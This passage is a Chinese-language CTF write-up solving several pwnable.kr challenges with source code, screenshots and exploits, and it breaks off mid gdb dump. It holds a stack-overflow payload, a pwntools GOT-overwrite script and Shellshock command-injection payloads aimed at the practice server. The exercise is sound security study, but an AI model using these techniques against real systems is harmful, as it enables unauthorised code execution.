<p>输入32个A:<br></p>
<p>此时还没有溢出：<br></p>
<p>但是上面已经覆盖了0x41414141.距离目标0xdeadbeef还有20个字节。<br></p>
<p>之前输入的是32个A。<br>所以我们需要填充52个字节，再覆盖上0xdeadbeef。<br><br><br> 0xdeadbeef已经被0x42424242成功覆盖了~<br><br>接下来只需要把BBBB改成key-&gt;0xcafebabe就行了</p>
<p>用pwntools：</p>
<p></p>
<h2 id="upx"><a href="#upx" class="headerlink" title="upx"></a>upx</h2><p>Download : <a href="http://pwnable.kr/bin/flag" target="_blank" rel="noopener">http://pwnable.kr/bin/flag</a><br><br>$ ./flag<br><br>I will malloc() and strcpy the flag there. take it.<br><br>$ strings flag<br><br>…<br><br>$ strings flag | grep -i upx<br><br>UPX!<br><br>$Info: This file is packed with the UPX executable packer <a href="http://upx.sf.net" target="_blank" rel="noopener">http://upx.sf.net</a> $<br><br>$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $<br><br>UPX!<br><br>UPX!</p>
<p>$ file flag<br><br>flag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped</p>
<p>$ upx -d flag<br>           <br>            Ultimate Packer for eXecutables<br>              <br>            Copyright (C) 1996 - 2013<br><br>UPX 3.91        Markus Oberhumer, Laszlo Molnar &amp; John Reiser   Sep 30th 2013</p>
<pre><code>File size         Ratio      Format      Name
</code></pre><hr>
<pre><code>887219 &lt;-    335288   37.79%  linux/ElfAMD   flag
</code></pre><p>Unpacked 1 file.<br><br>(if no upx…..do:<br>sudo apt-get install upx-ucl)</p>
<p>之后将脱壳后的flag文件脱进ida里<br>直接找到:</p>
<blockquote>
<p>.rodata:0000000000496628 aUpx___?SoundsL db ‘UPX…? sounds like a delivery service :)’,0<br>.rodata:0000000000496628                                         ; DATA XREF: .data:flago</p>
</blockquote>
<h2 id="passcode"><a href="#passcode" class="headerlink" title="passcode"></a>passcode</h2><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">login</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span> passcode1;</span><br><span class="line">	<span class="keyword">int</span> passcode2;</span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"enter passcode1 : "</span>);</span><br><span class="line">	<span class="built_in">scanf</span>(<span class="string">"%d"</span>, passcode1);      <span class="comment">//scanf读入有问题</span></span><br><span class="line">	fflush(<span class="built_in">stdin</span>);               <span class="comment">//清空输入缓冲区</span></span><br><span class="line"></span><br><span class="line">	<span class="comment">// ha! mommy told me that 32bit is vulnerable to bruteforcing :)</span></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"enter passcode2 : "</span>);</span><br><span class="line">        <span class="built_in">scanf</span>(<span class="string">"%d"</span>, passcode2);  <span class="comment">//scanf</span></span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"checking...\n"</span>);</span><br><span class="line">	<span class="keyword">if</span>(passcode1==<span class="number">338150</span> &amp;&amp; passcode2==<span class="number">13371337</span>)&#123;</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"Login OK!\n"</span>);</span><br><span class="line">                system(<span class="string">"/bin/cat flag"</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"Login Failed!\n"</span>);</span><br><span class="line">		<span class="built_in">exit</span>(<span class="number">0</span>);</span><br><span class="line">        &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">welcome</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">char</span> name[<span class="number">100</span>];</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"enter you name : "</span>);</span><br><span class="line">	<span class="built_in">scanf</span>(<span class="string">"%100s"</span>, name);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Welcome %s!\n"</span>, name);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Toddler's Secure Login System 1.0 beta.\n"</span>);</span><br><span class="line"></span><br><span class="line">	welcome();</span><br><span class="line">	login();</span><br><span class="line"></span><br><span class="line">	<span class="comment">// something after login...</span></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Now I can safely trust you that you have credential :)\n"</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;	</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>这题的解法就是向fflush的got表里写入地址，这样在执行fflush的时候就能跳到这个地址了。<br>在ida里找到fflush的地址：<br><br>还有我们要跳到的login ok的地址：<br></p>
<p>构造exp:<br><figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span>*</span><br><span class="line"></span><br><span class="line">p = ssh(host=<span class="string">'pwnable.kr'</span>, port=<span class="number">2222</span>, user=<span class="string">'passcode'</span>, password=<span class="string">'guest'</span>)</span><br><span class="line">sh = p.process(<span class="string">"./passcode"</span>)</span><br><span class="line"></span><br><span class="line"><span class="comment">#addr = 0x080485d7 -&gt; 134514135  因为输入只接受十进制的数，所以要把地址的值转化为十进制</span></span><br><span class="line">payload = <span class="string">'a'</span> * <span class="number">96</span> + <span class="string">'\x04\xa0\x04\x08'</span> + <span class="string">'134514135'</span></span><br><span class="line">sh.sendline(payload)</span><br><span class="line"><span class="keyword">print</span> (sh.recvall())</span><br></pre></td></tr></table></figure></p>
<p></p>
<h2 id="mistake"><a href="#mistake" class="headerlink" title="mistake"></a>mistake</h2><p>ssh <a href="mailto:mistake@pwnable.kr" target="_blank" rel="noopener">mistake@pwnable.kr</a> -p2222 (pw:guest)</p>
<p>提示：运算符符优先级</p>
<p>记不清优先级的话，就在做题前先复习下运算符优先级吧.<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;fcntl.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> PW_LEN 10</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> XORKEY 1</span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">xor</span><span class="params">(<span class="keyword">char</span>* s, <span class="keyword">int</span> len)</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span> i;</span><br><span class="line">	<span class="keyword">for</span>(i=<span class="number">0</span>; i&lt;len; i++)&#123;</span><br><span class="line">		s[i] ^= XORKEY;</span><br><span class="line">	&#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line">	</span><br><span class="line">	<span class="keyword">int</span> fd;</span><br><span class="line">	<span class="keyword">if</span>(fd=open(<span class="string">"/home/mistake/password"</span>,O_RDONLY,<span class="number">0400</span>) &lt; <span class="number">0</span>)&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"can't open password %d\n"</span>, fd);</span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"do not bruteforce...\n"</span>);</span><br><span class="line">	sleep(time(<span class="number">0</span>)%<span class="number">20</span>);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">char</span> pw_buf[PW_LEN+<span class="number">1</span>];</span><br><span class="line">	<span class="keyword">int</span> len;</span><br><span class="line">	<span class="keyword">if</span>(!(len=read(fd,pw_buf,PW_LEN) &gt; <span class="number">0</span>))&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"read error\n"</span>);</span><br><span class="line">		close(fd);</span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;		</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="keyword">char</span> pw_buf2[PW_LEN+<span class="number">1</span>];</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"input password : "</span>);</span><br><span class="line">	<span class="built_in">scanf</span>(<span class="string">"%10s"</span>, pw_buf2);</span><br><span class="line"></span><br><span class="line">	<span class="comment">// xor your input</span></span><br><span class="line">	xor(pw_buf2, <span class="number">10</span>);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">if</span>(!<span class="built_in">strncmp</span>(pw_buf, pw_buf2, PW_LEN))&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"Password OK\n"</span>);</span><br><span class="line">		system(<span class="string">"/bin/cat flag\n"</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span>&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"Wrong Password\n"</span>);</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	close(fd);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>问题出在这：<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">fd=open(<span class="string">"/home/mistake/password"</span>,O_RDONLY,<span class="number">0400</span>) &lt; <span class="number">0</span></span><br></pre></td></tr></table></figure></p>
<p> = 的优先级比 &lt; 小，但是open又总是返回一个非负数的，所以&lt;0为假，fd=0.也就是用户自己输入一段长度为10的数据，并保证password是和1进行按位异或的结果就行了。<br> </p>
<h2 id="shellshock"><a href="#shellshock" class="headerlink" title="shellshock"></a>shellshock</h2><p>这题是个真实漏洞，wiki-&gt;<br><a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" target="_blank" rel="noopener">https://en.wikipedia.org/wiki/Shellshock_(software_bug)</a></p>
<blockquote>
<p>  Shellshock，又称Bashdoor[1]，是在Unix中广泛使用的Bash shell中的一个安全漏洞[2]，首次于2014年9月24日公开。许多互联网守护进程，如网页服务器，使用bash来处理某些命令，从而允许攻击者在易受攻击的Bash版本上执行任意代码。这可使攻击者在未授权的情况下访问计算机系统[3]。</p>
</blockquote>
<p><br>这个漏洞的原始形式包括一个特殊的环境变量，其中包含一个导出的函数定义，其次是任意命令。Bash在导入该函数时不正确地执行跟踪命令。可以使用以下命令对漏洞进行测试：<br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">env x=<span class="string">'() &#123; :;&#125;; echo vulnerable'</span> bash -c <span class="string">"echo this is a test"</span></span><br></pre></td></tr></table></figure></p>
<p>在受该漏洞影响的系统中，上述命令将显示“vulnerable”一词，这是Bash执行命令“echo vulnerable”的结果，该命令被嵌入到指定的名为“x”的环境变量中。</p>
<p>ssh <a href="mailto:shellshock@pwnable.kr" target="_blank" rel="noopener">shellshock@pwnable.kr</a> -p2222 (pw:guest)<br></p>
<p>接下来在目标系统中输入这个命令：<br><figure class="highlight"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">env x='() &#123; :;&#125;; echo vulnerable' ./bash -c "echo this is a test"</span><br></pre></td></tr></table></figure></p>
<p>注意要用./bash</p>
<p><br> 显示了vulnerable，说明该系统中确实存在这个漏洞。<br>我们根据其特征对其加以利用，直接cat flag：<br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">env x=<span class="string">'() &#123; :;&#125;; /bin/cat flag'</span> ./shellshock</span><br></pre></td></tr></table></figure></p>
<p></p>
<h2 id="random"><a href="#random" class="headerlink" title="random"></a>random</h2><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">unsigned</span> <span class="keyword">int</span> random;</span><br><span class="line">	random = rand();	<span class="comment">// random value!</span></span><br><span class="line"></span><br><span class="line">	<span class="keyword">unsigned</span> <span class="keyword">int</span> key=<span class="number">0</span>;</span><br><span class="line">	<span class="built_in">scanf</span>(<span class="string">"%d"</span>, &amp;key);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">if</span>( (key ^ random) == <span class="number">0xdeadbeef</span> )&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"Good!\n"</span>);</span><br><span class="line">		system(<span class="string">"/bin/cat flag"</span>);</span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Wrong, maybe you should try 2^32 cases.\n"</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>伪随机数…而且发现random的值不会改变的。</p>
<p>来测试下rand()的值：<br><br>输出的值总是1804289383</p>
<p>将其与0xdeadbeef异或：</p>
<p></p>
<p>这个就是正确的key啦~</p>
<p></p>
<h2 id="leg"><a href="#leg" class="headerlink" title="leg"></a>leg</h2><p>给了一个c和一个asm文件,我直接在代码里加上了注释：<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;fcntl.h&gt;</span></span></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">key1</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">asm</span>(<span class="string">"mov r3, pc\n"</span>);  <span class="comment">//向计数器pc写入r3的值  0x00008cdc &lt;+8&gt;:	mov	r3, pc </span></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">key2</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">asm</span>(</span><br><span class="line">	<span class="string">"push	&#123;r6&#125;\n"</span></span><br><span class="line">	<span class="string">"add	r6, pc, $1\n"</span>  <span class="comment">// 0x00008cfc &lt;+12&gt;:	add	r6, pc, #1  向pc中写入r6的值</span></span><br><span class="line">	<span class="string">"bx	r6\n"</span>             <span class="comment">//跳转到r6</span></span><br><span class="line">	<span class="string">".code   16\n"</span></span><br><span class="line">	<span class="string">"mov	r3, pc\n"</span>     <span class="comment">//0x00008d04 &lt;+20&gt;:	mov	r3, pc</span></span><br><span class="line">	<span class="string">"add	r3, $0x4\n"</span>  <span class="comment">//0x00008d06 &lt;+22&gt;:	adds	r3, #4 向pc中写入r3的值再+0x4</span></span><br><span class="line">	<span class="string">"push	&#123;r3&#125;\n"</span></span><br><span class="line">	<span class="string">"pop	&#123;pc&#125;\n"</span></span><br><span class="line">	<span class="string">".code	32\n"</span></span><br><span class="line">	<span class="string">"pop	&#123;r6&#125;\n"</span>      <span class="comment">//pc = r6 = 0x00008d0c</span></span><br><span class="line">	);</span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">key3</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">asm</span>(<span class="string">"mov r3, lr\n"</span>);  <span class="comment">//0x00008d28 &lt;+8&gt;:	mov	r3, lr  保存lr的值：0x00008d80</span></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span> key=<span class="number">0</span>;</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Daddy has very strong arm! : "</span>);</span><br><span class="line">	<span class="built_in">scanf</span>(<span class="string">"%d"</span>, &amp;key);</span><br><span class="line">	<span class="keyword">if</span>( (key1()+key2()+key3()) == key )&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"Congratz!\n"</span>);</span><br><span class="line">		<span class="keyword">int</span> fd = open(<span class="string">"flag"</span>, O_RDONLY);</span><br><span class="line">		<span class="keyword">char</span> buf[<span class="number">100</span>];</span><br><span class="line">		<span class="keyword">int</span> r = read(fd, buf, <span class="number">100</span>);</span><br><span class="line">		write(<span class="number">0</span>, buf, r);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span>&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"I have strong leg :P\n"</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br></pre></td><td class="code"><pre><span class="line">(gdb) disass main</span><br><span class="line">Dump of assembler code <span class="keyword">for</span> <span class="keyword">function</span> main:</span><br><span class="line">   0x00008d3c &lt;+0&gt;:	push	&#123;r4, r11, lr&#125;</span><br><span class="line">   0x00008d40 &lt;+4&gt;:	add	r11, sp, <span class="comment">#8</span></span><br><span class="line">   0x00008d44 &lt;+8&gt;:	sub	sp, sp, <span class="comment">#12</span></span><br><span class="line">   0x00008d48 &lt;+12&gt;:	mov	r3, <span class="comment">#0</span></span><br><span class="line">   0x00008d4c 